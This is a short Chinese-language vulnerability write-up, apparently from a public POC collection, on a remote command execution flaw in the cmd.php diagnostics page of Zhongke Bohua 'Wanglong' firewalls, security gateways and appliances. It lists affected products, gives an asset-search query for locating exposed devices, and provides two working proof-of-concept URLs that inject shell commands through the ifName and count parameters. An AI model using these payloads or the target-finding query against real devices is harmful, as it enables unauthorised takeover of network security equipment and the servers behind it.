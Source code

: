 # 博华网龙安全设备cmd.php远程命令执行漏洞

# 一、漏洞简介
中科博华是一家集科研、产品开发、技术服务、系统集成为一体的高科技企业，是国家商用密码产品定点生产单位，具有商用密码生产和销售许可证、3C认证、系统集成叁级资质、信息安全服务一级资质和涉密资质等。中科博华多个安全设备系统存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。

# 二、影响版本
+ 博华网龙防火墙
+ 博华网龙信息安全一体机
+ 博华网龙安全网关

# 三、资产测绘
+ hunter`web.title="博华网龙"`
+ 特征

![1696566856436-c5c98016-9190-4ff0-a67e-becd89d83102.png](./img/Yaw0bhzWq8eQpP9I/1696566856436-c5c98016-9190-4ff0-a67e-becd89d83102-746962.png)

# 四、漏洞复现
**poc1:**

```plain
/diagnostics/cmd.php?action=arping&ifName=|id||
```

![1696566921516-95ed8ce9-77e0-4146-bdc6-63c346ac5baf.png](./img/Yaw0bhzWq8eQpP9I/1696566921516-95ed8ce9-77e0-4146-bdc6-63c346ac5baf-114102.png)

**poc2:**

```plain
/diagnostics/cmd.php?action=ping&count=||id||
```

![1696566937647-b84f3c0a-7dc7-48e4-a1c4-c3c3b87510cc.png](./img/Yaw0bhzWq8eQpP9I/1696566937647-b84f3c0a-7dc7-48e4-a1c4-c3c3b87510cc-081162.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ognnq9azp0fodi9b>
